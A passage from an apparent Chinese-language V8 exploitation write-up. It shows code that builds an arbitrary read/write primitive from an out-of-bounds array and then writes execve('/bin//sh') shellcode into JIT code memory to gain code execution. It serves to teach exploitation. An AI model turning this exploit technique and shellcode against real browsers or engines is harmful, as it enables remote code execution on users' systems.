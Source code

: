 构造读写原语的方式就出来了：利用`oobArray[i+1]`修改`bufs[j].kBackingStoreOffset`，然后用`bufs[j]`创建一个TypedArray，通过TypedArray进行读写，这样读写的地址就会变成我们修改的地址，也就构造出了任意读写原语
```
let arw = null;

for (let i = 0; i < bufs.length; i++) {
    if (bufs[i].byteLength == 0x1212) {
        class ArbitraryReadWrite {
            constructor(changed_idx_oob, changed_idx_bufs) {
                this.idx_in_oob_arr = changed_idx_oob;
                this.idx_in_bufs_arr = changed_idx_bufs;
            }

            read(addr) {
                let i = this.idx_in_oob_arr;
                oobArray[i + 1] = addr.asDouble();
                oobArray[i + 2] = addr.asDouble();
                let arr = new Float64Array(bufs[this.idx_in_bufs_arr], 0, 0x10);
                return Int64.fromDouble(arr[0]);
            }

            write(addr, vals) {
                let i = this.idx_in_oob_arr;
                oobArray[i + 1] = (new Int64(addr)).asDouble();
                oobArray[i + 2] = (new Int64(addr)).asDouble();
                let arr = new Uint8Array(bufs[this.idx_in_bufs_arr]);
                arr.set(vals);
            }
        }

        arw = new ArbitraryReadWrite(changed_idx, i);
        break;
    }
}
```

所以可以任意读写之后，我们通过读原语读出`Code + 0x5F`的值，这个值就是JIT代码的地址，我们通过写原语将ShellCode写进去，最后进行函数调用即可完成RCE
```
let code_addr = arw.read(Add(jit_func_obj_ptr, 0x30));
let jit_code_addr = Add(code_addr, 0x5F);

shell = [0x48, 0x31, 0xf6, 0x56, 0x48, 0xbf, 0x2f, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x57, 0x48, 0x89, 0xe7, 0x48, 0x31, 0xd2, 0x48, 0x31, 0xc0, 0xb0, 0x02, 0x48, 0xc1, 0xc8, 0x28, 0xb0, 0x3b, 0x0f, 0x05];
arw.write(jit_code_addr, shell);
func_to_overwrite();
```

效果如下
